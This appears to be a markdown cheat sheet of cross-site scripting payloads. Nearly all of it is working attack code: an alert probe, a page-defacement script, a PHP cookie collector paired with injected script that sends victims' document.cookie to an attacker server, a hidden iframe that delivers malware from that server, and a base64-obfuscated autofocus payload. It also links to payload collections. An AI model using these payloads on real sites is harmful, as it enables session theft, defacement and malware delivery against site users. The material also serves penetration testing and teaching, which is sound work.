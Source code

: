 ```javascript
<img src='bla' onerror=alert("XSS")>
```

### Persistent

```javascript
>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";
```

### PHP collector

`> cookie.txt`
`chmod 777 cookie.txt`

edit a php page like colector.php as follow:

```php
<?php
  $cookie=GET['cookie'];
  $useragent=$_SERVER['HTTP_USER_AGENT'];
  $file=fopen('cookie.txt', 'a');
  fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n");
  fclose($file);
?>
```

Script to put in page:

```javascript
<scritp>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>
```

#### Malware Donwloader via XSS

```javascript
<iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>
```

#### How to play Mario with XSS

```javascript
<iframe
  src="https://jcw87.github.io/c2-smb1/"
  width="100%"
  height="600"
></iframe>
```

```javascript
<input onfocus="document.body.innerHTML=atob('PGlmcmFtZSBzcmM9Imh0dHBzOi8vamN3ODcuZ2l0aHViLmlvL2MyLXNtYjEvIiB3aWR0aD0iMTAwJSIgaGVpZ2h0PSI2MDAiPjwvaWZyYW1lPg==')" autofocus>
```

#### XSS payloads

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)
